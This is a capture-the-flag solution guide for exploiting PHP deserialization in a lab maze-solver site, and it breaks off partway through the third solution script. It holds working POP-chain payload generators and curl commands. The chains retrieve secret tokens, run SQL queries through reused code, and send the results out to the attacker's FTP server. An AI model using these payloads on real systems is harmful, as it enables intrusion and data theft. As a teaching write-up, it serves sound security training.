




# Golden Gun

*Solution Guide*

## Overview

In Golden Gun, competitors are tasked with writing a complex series of PHP POP chains. PHP POP chains are commonly 
compared to ROP chains, given they both rely on "gadgets" (reusing existing code). This challenge pushes that comparison 
to its limits by requiring the use of a stack class to emulate a call stack. These tasks include connecting to and 
querying a remote database, and implementing a "while loop". In addition, these tasks require taking advantage of unique PHP features,
such as using the FTP stream wrapper to extract data. 

## Question 1

*Token 1: Find and review the `firstToken` class in the source code of the site.*

Before we begin, let's first take a look at the service that we are meant to exploit at `http://mazesolver.pccc`. The site contains a simple maze maker and solver, with adjustable sizes and start/end points. It provides a variety of samples, including some fun images and a large maze shown in the below image.



We aren't given much to start with for the first token, but we do know we need to find some source code.
Based on the challenge description, we should pivot to the provided `mazesolver.local.pccc`. Oddly, this does not appear to have the website running at `http://mazesolver.local.pccc`, but we can `ssh` in using the usual credentials: `sshpass -p 'password' ssh user@mazesolver.local.pccc`

Once on the server, we can check the `/var/www/html` folder to find the source code in the file `index.php`. Let's copy this file over to your Kali device using `sshpass -p 'password' scp user@mazesolver.local.pccc:/var/www/html/index.php ./` in a new terminal. We can then take a closer look at the code using `code ./index.php` (or, alternatively, another editor of your choice). Note a full copy of the source code can be found [here](../challenge/mazeSolverLocal/app/index.php) (note this version lacks some detailed logging available in the original copy, available [here](../challenge/mazeSolverProd/app/index.php)).

<details>
<summary>Running, modifying, and providing a database for the local application</summary>

While not necessary if following along with the solution guide, being able to run and modify the source code to add logging statements or placeholder tokens will be extremely helpful when trying to work through the challenge normally.

First, let's see if we can get it running. Either by examining the installed tools on `mazesolver.local.pccc` or by using `curl --head mazesolver.pccc`, we can determine that Apache is the server being used, but it is not currently running on the local mirror. While the normal `apache2` service and commands are not available, we can find that `apache-foreground` is available (either quickly by typing `apache` and hitting `<TAB>` for autocomplete, or a more complete search using the `find` command). However, running this command fails with a somewhat a misleading error: `/usr/local/bin/apache2-foreground: line 40: exec: apache2: not found`. The issue is really that we need to run the command as root. Instead, run `sudo apache2-foreground`, and then visit `http://mazesolver.local.pccc` to see we now have our own copy running that we can debug.

Now to modify the file, start by running `sudo chmod 666 /var/www/html/index.php` over the SSH connection (note that you may need to open another connection if you still have Apache running in the foreground).

Now after you make any modifications to your local copy, you can upload it to the local mirror by "reversing" the `scp` command from earlier: `sshpass -p 'password' scp ./index.php user@mazesolver.local.pccc:/var/www/html/index.php`. For example, I've modified the `firstToken:token()` method to the following, so we can determine if our exploit is successful. Be sure to pick a string that is easy to recognize.

```php
class firstToken
{
  public function token()
  {
    echo "firstToken:token() has been called\n";
    return "PCCC{This_is_my_token1_test}";
  }
}
```

Additionally, you may want to return PHP's error reporting to the verbose default. You can either find and modify the `ini` file at `/usr/local/etc/php/conf.d/zz-logging.ini` or put the following lines at the top of `index.php`.

```php
ini_set('display_errors', '0');
ini_set('display_startup_errors', '0');
ini_set('html_errors', '0');
ini_set('log_errors', '1');
ini_set('error_log', '/proc/self/fd/2');
error_reporting(E_ALL & ~E_DEPRECATED & ~E_NOTICE);
```

Finally, for Token 2, the web server will also need access to a MySQL database. The source code only leaks the database/schema name, but not any of the table details. We will need to extract those details later, but for now we can just set up a server.  

First, we start the server on Kali with `sudo -u mysql mysqld --bind-address=0.0.0.0`. In a different terminal, we can now connect with `sudo mysql`. For simplicity, we will just give full access to `user` (not concerned with security in a CTF environment), and then create the database. Finally, we also put in a `test` table, so we can test our table extraction when we get to that step.

```sql
CREATE USER IF NOT EXISTS 'user'@'%' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'user'@'%' WITH GRANT OPTION;
FLUSH PRIVILEGES;
CREATE DATABASE pop;
CREATE TABLE pop.test (id INT AUTO_INCREMENT PRIMARY KEY, name VARCHAR(255));
```

With the server running, we now just need to modify the server's code to point to our Kali database instead, which we can do by modifying the database connection to the following, where `{IP}` is the IP address of our Kali box. Use the previous `scp` command again to upload the modification.

```php
$dsn  = 'mysql:host={IP};dbname=pop;charset=utf8mb4';
$user = 'user';
$pass = "password";
```

With the database available, and all of the environment variables (namely, the token values) converted to static strings, the local server will be running like the production server! Note you should have two terminal instances running the foreground: the `apache2-foreground` on the local server, and `mysqld` on the Kali box.

</details>

With the source code (and possibly a running local copy if you followed the optional steps above), we can now begin to identify any weaknesses. Right at the top of the code, we can find the classes that contain our tokens: `firstToken`, `secondToken`, and `thirdToken`. 

```php
class firstToken
{
  public function token()
  {
    return getenv("firstToken");
  }
}
```

The first token is much simpler than the other two, simply returning a copy of the token from the environment variables. Checking the environment variables on the mirror with `env`, this environment variable is missing, so we will have to get it from the real site.

We know that we want to write a POP Chain from the challenge description, so begin by searching for a call to `unserialize` as that will be where our exploit starts. The only result appears in `Importer:handle`:

```php
class Importer
{

  public $test;
  public $callClass;
  public $callback;

  public function handle($raw)
  {
    $allowed = ["GlobalStack", "firstToken", "secondToken", "thirdToken", "Logger", 
                "Benchmark", "Defaults", "Announcer", "Solver", "MazeBuilder", "Maze", 
                "Importer", "debugPanel", "Post"];
    $result = @unserialize($raw, ['allowed_classes' => $allowed]);
    if ($result === false && $raw !== 'b:0;') {
      fwrite(STDERR, "Unserialize failed\n");
      exit(2);
    }

    $new = $result->handle($result->goal);

    return $this->callClass->{$this->callback}($new);
  }
}
```

This is used in the `Post` class, which handles the various types of `POST` requests that can be made to the site. 

```php
class Post
{
  public static $MazeBuilder;

  public function handle()
  {
    $payload = $_POST['payload'] ?? '';
    $data = json_decode($payload, true);

    if (is_array($data) && isset($data['maze'], $data['start'], $data['goal'])) {

      $maze = new Maze($data['maze'], $data['start'], $data['goal']);
      $maze->handle();

      return $maze;
    } else if ($_POST['sample']) {
      $defaults = new Defaults();
      $this->assignSampleBuilder($defaults->getSampleBuilder());
      $maze = $this->createSample('sample');
      $maze->handle();

      return $maze;
    } else if ($_POST['import']) {
      return $this->import("import");
    } else {
      // bad payload — handled client-side visually
      return null;
    }
  }

  public function import($var)
  {
    $importer = new Importer();

    $importer->callClass = new Logger();
    $importer->callback = "logImport";

    return $importer->handle($_POST[$var]);
  }
}
```

The one that we are interested in is the `$_POST['import']` value, which eventually calls the `handle` method with the `unserialize` we need. This value is not documented on the site itself. A string containing a serialized PHP `Maze` object is expected in the `import` var. The importer then unserializes the `Maze`, calls `handle` on the `Maze` to solve it, and then calls a callback method on it (by default, this is a logging function).

Given this line `$new = $result->handle($result->goal);`, we need the unserialized object to contain a `handle` method and `goal` member to avoid an error. This limits us to the `Post`, `Importer`, `Maze`, and `Announcer` classes. Note that these classes do not have `goal` members, but we can simply add it to our imported class (this may be deprecated in future PHP versions, but is still possible for now).

Notably, the `handle` method in the `Importer` class is the same method that calls unserialize. By setting `goal` to contain another serialized object, we can repeatedly unserialize additional objects. That is, when `$result` is an `Importer`, `$result->handle($result->goal)` will attempt to unserialize whatever is inside `$goal`. If we combine this with setting the `callClass` and `callBack` values, we can execute multiple methods in a row by chaining many `Importer:handle` calls.

In this case, we want to call the `firstToken` method to get the token, and then output that somehow. The Logger class contains a `file_put_contents` call that we can manipulate to write somewhere. By default, it'll write to a file on the server that we cannot read. However, `file_put_contents` can be provided a stream wrapper. Through trial and error or by checking the local mirror's config, we can determine that the `FTP` stream wrapper is supported and will allow us to write to a remote location.

Now that we have a general idea of what we *want* to accomplish, we can focus on the *how*. We can write our own PHP script that uses the `serialize` function to create our payload. For example, if we want to create a simple payload with an Importer class, we can use the following PHP code.

```php
class Importer {
    public $goal;
    public $callClass;
    public $callback;
}

$a = new Importer();

$a->goal = "Some value";
$a->callClass = new stdClass();
$a->callback = "Some value";

echo @serialize( $a )
//This outputs a string with a fake "Importer" object that contains two strings and a stdClass Object that can be imported using unserialize.
```

Note that this definition of `Importer` is much shorter than the one in `index.php`, and even includes some variables that don't even exist in the `index.php` version. 

We will need to build lots of `Importer` objects, and there are many classes from `index.php` that we will want to manipulate. All of the definitions can be found in the provided [class.php](./class.php), and is also included below. Note the `class.php` file also provides the `makeImporter` and `makeImporterSerial` short functions which can be used to build a fake `Importer` object just like we did manually above. It also includes some functions and definitions for Tokens 2 and 3, which can be ignored until then.

```php
<?php 
//CLASS.PHP

class Maze {
    public $goal;
}

class Importer {
    public $goal;
    public $callClass;
    public $callback;
    public $successMessage;
    public $failureMessage;
}

class GlobalStack{}

class Post{}

class firstToken{}
class secondToken{}
class thirdToken{}

class Logger
{
  public string $logFile;
}

class Defaults{}

class Solver
{
    public $a;
}


class debugPanel{}

class MazeBuilder{}

function makeMazeSerial(){
    return @serialize(new Maze());
}

function makeImporter(string $payload, Object $callClass, string $callback){
    $importer = new Importer();

    // $payload contains the next "link" in the chain
    // Note the chain is built "inside out", so $importer contains $payload
    //   but when unserialized, the code will execute the innermost calls first, so the 
    //   chain will execute $payload first, as we expect it to.
    $importer->goal = $payload;
    
    // $callClass should be an Object that we want to call a method with
    $importer->callClass = $callClass;

    // $callback is a string with the name of method that will be called on $callClass
    $importer->callback = $callback;

    // For example, 
    // $payload = makeImporterSerial($payload, new firstToken(), "token");
    // will create a new link in the POP chain that runs "firstToken->token();", then 
    // continues to run the next link in $payload.
    return $importer;
}

function makeImporterSerial(string $payload, Object $callClass, string $callback){
    return @serialize(makeImporter($payload, $callClass, $callback));
}

function makeBranchSerial(string $caller, string $true, string $false){

    // Create the branch importer, not yet serialized
    $importer = makeImporter($caller, new Solver(), "goal_reached");

    // The branch, regardless of true/false will always run a callback, so need to make it a safe default
    // Could optimize for specific uses (e.g., push to stack), but that's not necessary
    $importer->callClass->a = makeImporter("", new Defaults(), "ok"); // Note payload is not used when run like this
    
    // Add the conditions
    $importer->callClass->a->successMessage = $true;
    $importer->callClass->a->failureMessage = $false;

    return @serialize($importer);
}
```

With this information, refer to the [./solution1.php](./solution1.php) script, included below, for a short PHP script that uses `class.php` to create a POP chain for us. It creates a chain of `Importer` objects through the `$payload` variable that calls the `token` and `log` methods. This means the `$payload` variable is our serialized chain that will be passed along, with new "links" added with each new `Importer` added. It also uses an `FTP` stream wrapper with our IP address to port `2121`.

```php
<?php
//SOLUTION1.php
// Contains all of the partial declarations of the classes we need
include_once("./class.php");

// Start with something that can run without error (Maze)
$payload = @serialize(new Maze());

// Call the firstToken method to retrieve the token
$payload = makeImporterSerial($payload, new firstToken(), "token");

// Call the logger, but with file set to ftp://IP
$ip = current(preg_grep('/^10\./', explode(' ', trim(shell_exec('hostname -I')))));

$URI = "ftp://user:password@$ip:2121";

$logger = new Logger();
$logger->logFile = $URI;

$payload = makeImporterSerial($payload, $logger, "log");

echo "$payload\n";
file_put_contents("import.txt", $payload);
```

Now we need to set up a `FTP` server on our Kali box, which we can do with `vsftpd`. The following command will allow the file to be written directly to our home directory. Open a new shell and run the command to start our `FTP` server.

```bash
sudo vsftpd -olisten=YES -olisten_port=2121 -olocal_enable=YES -owrite_enable=YES -ochroot_local_user=YES -oallow_writeable_chroot=YES
```

With that ready, we can run our exploit. Copy and paste `solution1.php` and `class.php` into your Kali box, and create the payload with `php solution1.php`. This will print out the payload, and place it in the file `import.txt`. We can then use the following `curl` command to send the payload contained in `import.txt`.

```bash
curl -X POST --data-urlencode import@import.txt http://mazesolver.pccc/
```

If successful, there should now be a `log.txt` file in your home directory which contains the token. Note that if there is already a `log.txt` file present, the exploit will fail as PHP will throw the following warning: `Failed to open stream: Remote file already exists and overwrite context option not specified`. If that occurs, simply use `rm` to remove the existing `log.txt` file and try again.



In this case, the token is `PCCC{Learning_2_read_PN_6793}`.

## Question 2

*Token 2: Find and review the `secondToken` class in the source code of the site.*

For the second token, we now check the `secondToken` class.

```php
class secondToken
{
  // You'll need this... Good luck!
  public function initDB()
  {
    $dsn  = 'mysql:host=database;dbname=pop;charset=utf8mb4';
    $user = 'user';
    $pass = getenv("DB_PASS");

    try{
      return new PDO($dsn, $user, $pass, [
        PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION,
        PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
        PDO::ATTR_EMULATE_PREPARES   => false,
      ]);
    } catch (PDOException $e) {
      echo "<h1>Database connection failed (container network may be initializing). If the issue persists after a few minutes, please contact support. </h1>";
      return null;
    }
  }
}
```

This method does not return a token, but instead returns a database connection! While we still need to develop a PHP POP chain, we now need to make a much more complex chain that connects to the database, prepares a query, executes it, and then retrieves the results. For example, this would normally look something like this:

```php
$pdo = new PDO($dsn, $user, $pass, [
    PDO::ATTR_ERRMODE            => PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_DEFAULT_FETCH_MODE => PDO::FETCH_ASSOC,
    PDO::ATTR_EMULATE_PREPARES   => false,
]);

$stmt = $pdo->prepare('SELECT * FROM users');
$stmt->execute();
$rows = $stmt->fetchAll();   // array of rows (assoc)
```

There are calls to `prepare` available in the code in the `createSample` method of the `Post` class, and an `execute` available in the `getExecutionTime` method of the `debugPanel` class. However, there is no `fetchAll`. For now, let's figure out how to call `prepare`.

```php
  public function createSample($name)
  {
    return self::$MazeBuilder->prepare($_POST[$name]);
  }

  public function assignSampleBuilder($builder)
  {
    self::$MazeBuilder = $builder;
  }
```

The call to `prepare` occurs when a `MazeBuilder` object is used to build one of the samples. It is called on `self::$MazeBuilder`, which we can control by first calling `assignSampleBuilder`. Finally, the argument to prepare, which we need to contain the SQL query, comes from `$_POST[$name]`, where `$name` is the argument passed to `createSample`. If we can pass a string to `createSample`, we can then pass the query in the `POST` arguments. This will then return a `Statement` object for us to execute.

That's a rough outline of how to use prepare; now execute. Execute is a bit more straightforward, as we can just call `getExecutionTime` and pass the `Statement` as the `$benchmark` argument. However, we will need to set a cookie with the name `debug`. In addition, this does not return the statement, but true or false depending on if the query succeeded. Thus, we will need some way to persist the `Statement` object so we can retrieve it after it has executed.

We can accomplish this persistence by using the `GlobalStack` class. By pushing the `Statement` to the stack, it will be stored, and we can then call either `peek` or `pop` to retrieve it again.

Finally, we need to actually get the results. None of the usual methods for retrieval, such as `fetchall`, are available. Instead, we can take advantage of the fact that the `Statement` is a traversable class. That is, if we pass it to a `foreach` statement, it will be iterated over just like an array would. Take a look at the following `invertMaze` method in the `MazeBuilder` class.

```php
public function invertMaze($maze){
    $newMaze = [];
    foreach($maze as $row){
      $newRow = [];
      foreach($row as $col){
        if($col == 1){
          $col = 0;
        } else if($col == 0){
          $col = 1;
        }
        $newRow[] = $col;
      }
      $newMaze[] = $newRow;
    }

    return $newMaze;
  }
```

This method, originally designed to convert all of the walls into open spaces and vice versa actually does exactly what we need. If passed a `Statement`, it will be iterated over in the first `foreach` statement. The results, however, will be strings, not `0` or `1`, so the values will not be modified, and instead copied over into a normal array.

With a normal array, we still need to do a bit more work. If we try to output the array now, we will only get the output "Array", instead of the contents of the array. Our final step will be to take advantage of the `dump` method on the `Maze` class to convert the array into a string using `print_r`, which will include all of the contents.

Finally, we just need to write this array somewhere we can read it. We can reuse our `FTP` trick from Token 1 to accomplish this. Just note that you need to delete the old `log.txt` file as PHP won't overwrite it with a new one.

These details provide a rough outline of the process, but there are many small caveats to consider. These are documented in the [./solution2.php](./solution2.php) script, included below.

```php
<?php
//SOLUTION2.php
include_once("class.php");

// Always start with something that can run without error (Maze)
$payload = makeMazeSerial();

// For this token, we need to run a SQL query
// We start by creating the Database connection using the conveniently provided initDB function
$payload = makeImporterSerial($payload, new secondToken, "initDB");

// Now the callback argument contains the PDO connection object
// We now need to prepare the SQL query to run
// We will pass the query itself in another POST variable, later
// The prepare call we need can be found in the Post::createSample method
// This calls prepare on $this->MazeBuilder; we can set $this->MazeBuilder using Post::assignSampleBuilder
$payload = makeImporterSerial($payload, new Post, "assignSampleBuilder");

// For createSample to work, we need to pass a string for $_POST
// The only option for getting a string at the moment is from Defaults::ok, which returns #f3f3cfff
// This name is unusual, but works fine
$payload = makeImporterSerial($payload, new Defaults, "ok");

// Now we can call prepare through createSample, passing #f3f3cfff in the callback argument
$payload = makeImporterSerial($payload, new Post, "createSample");

// The callback argument now contains a Statement object, which we now need to execute
// An execute call can be found in debugPanel::getExecutionTime
// However, we will need to access the Statement value again
// The execute function will return true/false, so we would lose access to it!
// We can store the statement on the stack so we can retrieve it later
$payload = makeImporterSerial($payload, new GlobalStack, "push");

// Push returns the value, so now we call getExecutionTime
$payload = makeImporterSerial($payload, new debugPanel, "getExecutionTime");

// Retrieve the statement, which has now executed
// Pop would work just fine since we only need to access it once
$payload = makeImporterSerial($payload, new GlobalStack, "peek");

// With statement back in the callback argument, we need to access it somehow
// Statement is a traversable object, so a foreach would work
// We can find one in MazeBuilder::invertMaze
// This is built for mazes, but it will also work for the Statement since string objects will "fall through"
$payload = makeImporterSerial($payload, new MazeBuilder, "invertMaze");

// Now, we can't pass the array directly to file_put_contents to write it
// Instead, we can use Maze::dump to convert the array into a string
$payload = makeImporterSerial($payload, new Maze, "dump");

// Call the logger, but with file set to ftp://IP
$ip = current(preg_grep('/^10\./', explode(' ', trim(shell_exec('hostname -I')))));

$URI = "ftp://user:password@$ip:2121";

$logger = new Logger();
$logger->logFile = $URI;

$payload = makeImporterSerial($payload, $logger, "log");

// Now output the payload
echo "import:     $payload\n\n\n";
file_put_contents("import.txt", $payload);

// Finally, our SQL statement
// Since this is the solution, we already know the table name is superSecretTableOfMazes
// However, if you want to retrieve all the tables first, uncomment the below line to switch the sql
$sql = "SELECT * FROM superSecretTableOfMazes";
// $sql = "SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES";

// Now, we need to put the SQL in the #f3f3cfff POST var
echo "sql:     $sql\n\n\n";
file_put_contents("#f3f3cfff.txt", $sql);
```

Note the solution, by default, knows to query the table `superSecretTableOfMazes`. Normally, you would need to dump the names of the tables first, so you actually need to run the exploit twice with two different SQL queries. To do so, you can uncomment the `$sql` line near the end of the file.

Finally, one more major caveat worth discussing here as well is the `POST` variable name we use to store the query. The only string we have access to at the moment appears in the methods available in the `Defaults` class. These provide the default color hex codes for the maze as strings. While a bit unusual, there is no issue with using the name `#f3f3cfff` as a `POST` var name.

With that covered, the last step is to run the exploit. Make sure to start the `FTP` server if you stopped it, delete the old `log.txt` file if present, and then run the payload using the new `curl` command below. Just like before, our solution script provides the payloads in text files.

```bash
curl -X POST --data-urlencode import@import.txt --data-urlencode "#f3f3cfff"@"#f3f3cfff.txt" -H "Cookie: debug=value" http://mazesolver.pccc/
```



Note the output will be an array of arrays; one of the entries will contain the token in expected format. In this case, the token is `PCCC{Complex_calls_n_stack_intro_mb_7069}`.

# Question 3

*Token 3: Find and review the `thirdToken` class in the source code of the site.*

Only one more Token class remains, but the goal with this one is a little more obscured:

```php
$tokenCount = -1;
$tokenExpected = 0;
$tokenLimit = random_int(50, 100);

class thirdToken
{
 public function call0()
  {
    global $tokenExpected;
    global $tokenCount;
    global $tokenLimit;

    if ($tokenExpected != 0 || $tokenExpected == -1)
      die();

    $tokenExpected = random_int(0, 1);
    $tokenCount++;

    if($tokenCount >= $tokenLimit){
      $tokenExpected == -1;
    }

    return $tokenExpected;
  }

  public function call1()
  {
    global $tokenExpected;
    global $tokenCount;
    global $tokenLimit;

    if ($tokenExpected != 1 || $tokenExpected == -1)
      die();

    $tokenExpected = random_int(0, 1);
    $tokenCount++;

    if($tokenCount >= $tokenLimit){
      $tokenExpected == -1;
    }

    return $tokenExpected;
  }

  public function done()
  {
    global $tokenCount;
    global $tokenLimit;

    if ($tokenCount >= $tokenLimit) {
      return getenv("thirdToken");
    }

    return 0;
  }
}
```

We can see at the end the `done` method returns the token from the environment like with Token 1. However, this time we need to complete a small puzzle before the token is returned. We need to call either `call0` or `call1` depending on the value of the global `$tokenExpected`. However, after each call, the value of `$tokenExpected` is randomly changed to either `0` or `1` and returned. We have to do this between `50` and `100` times, depending on the randomly chosen value of `$tokenLimit`. 

We will need some new techniques for this one as we now need our payload to do different things based on the random behavior of the puzzle. We will also need to make many more uses of the techniques we devised for the previous tokens, such as using the stack and odd `POST` vars.

For this token, most of the explanation will occur in the solution script itself. However, one critical aspect to discuss before that is how we obtain branching behavior and then looping.

First, we can take advantage of one of the other calls to `handle` we saw during Token 1. In the `Solver` class, we have the `goal_reached` method.

```php
class Solver
{
  public function __construct(public $a) {}

  public function goal_reached($arg)
  {
    if ($arg == GlobalStack::peek()) {
      $this->a->handle($this->a->successMessage);
    } else {
      $this->a->handle($this->a->failureMessage);
    }
  }
...
}
```

This function checks the top of the stack, and then compares it to passed `$arg`. It then calls `handle` with `$this->a->successMessage` or `$this->a->failureMessage`. By creating our own `Solver` class where `$a` is not an `Announcer`, but is instead another `Importer`, we can pass the `unserialize` two different strings based on the execution of the POP chain! We will use this technique in two different ways: checking if the `done` method returns a 0 or the token, and checking if `call0` or `call1` returned a `0` or a `1`.

The next technique we need is a way to loop this code. While it is possible to devise a string of 50 nested branches and running the code repeatedly until it works, such a process would be quite error-prone to build (and the payload is already quite error-prone as it is!). Instead, we can achieve looping by calling the `import` method in the `Post` class. This is the method that starts our original POP chain. By passing a different string as the argument to `import`, we can start a new POP chain on another `POST` variable. Thus, if we put our branching loop in a `POST` var (like we did with the SQL query in `#f3f3cfff`), we can "restart" it by calling `import` at the end of the loop (just like a `jump` instruction). However, note that this is not really a true restart; as no functions return until the final call, it is just one really long call of mutually recursive functions. Fortunately, there is plenty of memory for our purposes, even in the worst case scenario of 100 loops.

Building a branch is wrapped up in the `class.php` method below.

```php
function makeBranchSerial(string $caller, string $true, string $false){

    // Create the branch importer, not yet serialized
    $importer = makeImporter($caller, new Solver(), "goal_reached");

    // The branch, regardless of true/false will always run a callback, so need to make it a safe default
    // Could optimize for specific uses (e.g., push to stack), but that's not necessary
    $importer->callClass->a = makeImporter("", new Defaults(), "ok"); // Note payload is not used when run like this
    
    // Add the conditions
    $importer->callClass->a->successMessage = $true;
    $importer->callClass->a->failureMessage = $false;

    return @serialize($importer);
}
```

The rest of the details can be found in [./solution3.php](./solution3.php), included below.

```php
<?php
//SOLUTION3.php
include_once("class.php");

// Always start with something that can run without error (Maze)
$payload = makeMazeSerial();

// We first need to initialize the stack by pushing two zeros to the stack
// The first will be repeatedly used in goal_reached via GlobalStack::peek()
// The second will be actual value of $tokenExpected, which starts as 0
// We can get 0 by calling the done function in the thirdToken

$payload = makeImporterSerial($payload, new thirdToken, "done");
$payload = makeImporterSerial($payload, new GlobalStack, "push");  // Note that push returns the pushed value
$payload = makeImporterSerial($payload, new GlobalStack, "push");

// Next, add the call to the branching section, which we will pass in the POST var called "#f3f3cfff"
//   We use this string as we can retrieve it from the Defaults class
$payload = makeImporterSerial($payload, new Defaults, "ok");
// The branch payload is then called via import
$payload = makeImporterSerial($payload, new Post, "import");

// Once the branching is finished, we need to retrieve and output the final token just like we did with Token 1
$payload = makeImporterSerial($payload, new thirdToken, "done");

// Call the logger, but with file set to ftp://IP
$ip = current(preg_grep('/^10\./', explode(' ', trim(shell_exec('hostname -I')))));

$URI = "ftp://user:password@$ip:2121";

$logger = new Logger();
$logger->logFile = $URI;

$payload = makeImporterSerial($payload, $logger, "log");

// Now output the first payload to use
echo "import:     $payload\n\n\n";
file_put_contents("import.txt", $payload);

// Now we create the branching payload
// Start by calling done to check if we are finished (note we pass Maze as a safe payload to start!)
